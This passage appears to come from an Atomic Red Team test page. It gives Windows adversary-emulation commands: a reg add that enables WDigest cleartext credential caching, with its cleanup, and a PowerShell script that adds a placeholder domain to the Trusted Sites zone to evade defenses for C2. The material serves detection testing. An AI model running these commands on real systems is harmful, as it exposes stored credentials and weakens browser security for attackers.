 **Supported Platforms:** Windows


**auto_generated_guid:** c0413fb5-33e2-40b7-9b6f-60b29f4a7a18






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Add domain to Trusted sites Zone
Attackers may add a domain to the trusted site zone to bypass defenses. Doing this enables attacks such as c2 over office365.
Upon execution, details of the new registry entries will be displayed.
Additionally, open Registry Editor to view the modified entry in HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\.

https://www.blackhat.com/docs/us-17/wednesday/us-17-Dods-Infecting-The-Enterprise-Abusing-Office365-Powershell-For-Covert-C2.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** cf447677-5a4e-4937-a82c-e47d254afd57





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bad_domain | Domain to add to trusted site zone | String | bad-domain.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
```
